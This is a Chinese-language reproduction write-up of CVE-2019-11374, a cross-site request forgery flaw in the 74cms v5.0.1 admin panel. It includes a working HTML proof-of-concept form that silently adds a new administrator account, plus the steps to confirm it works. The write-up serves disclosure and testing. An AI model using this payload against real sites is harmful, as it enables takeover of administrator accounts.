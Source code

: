 # CVE-2019-11374 74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞

### 一、漏洞简介

在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

### 二、漏洞影响

74CMS v5.0.1

### 三、复现过程

首先是骑士cms的安装，设置管理员账户名为admin777,密码也是admin777

![](images/15897263689467.png)


安装完成后如下url进入后台


```
http://url/74cms/index.php?m=admin&c=index&a=login
```

输入管理员账号密码同为admin777进入后台

点击系统一栏，进入到【系统】->【网络管理员】->【添加管理员】中，进行添加管理员

![](images/15897263882602.png)


![](images/15897263920112.png)


![](images/15897263956114.png)


填入自定义的用户名密码邮箱，选择好所属角色，点击添加后抓包

![](images/15897264021345.png)


使用burp生成csrf POC

![](images/15897264102331.png)


POC代码:


```html
<html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://url/74cms/index.php?m=admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="test007" />
      <input type="hidden" name="email" value="test&#64;qq&#46;com" />
      <input type="hidden" name="password" value="test007" />
      <input type="hidden" name="repassword" value="test007" />
      <input type="hidden" name="role&#95;id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

测试Poc前记得先在管理页面删除test007用户，以免无法确定Poc可用性

![](images/15897264330285.png)


赋值html内容到本地的Poc.html文件中测试Poc

原管理员列表:

![](images/15897264427898.png)


点击Poc.html中的Submit Request按钮

![](images/15897264500720.png)


点击后显示操作成功

![](images/15897264565869.png)


回来管理员列表刷新页面查看管理员是否成功添加:

![](images/15897264633423.png)
